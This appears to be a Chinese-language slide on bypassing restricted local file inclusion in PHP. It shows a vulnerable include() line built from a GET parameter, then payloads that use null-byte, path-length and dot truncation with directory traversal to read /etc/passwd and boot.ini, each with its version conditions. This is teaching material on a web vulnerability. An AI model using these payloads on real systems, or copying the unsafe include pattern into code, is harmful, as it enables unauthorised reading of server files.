

有限制文件包含
有限制文件包含
<?php include("inc/" . $_GET['file'] . ".htm"); ?>

%00截断：
?file=../../../../../../../../../etc/passwd%00
(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)

%00截断目录遍历：
?file=../../../../../../../../../var/www/%00
(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)

路径长度截断：
?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)

点号截断：
?file=../../../../../../../../../boot.ini/………[…]…………
(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)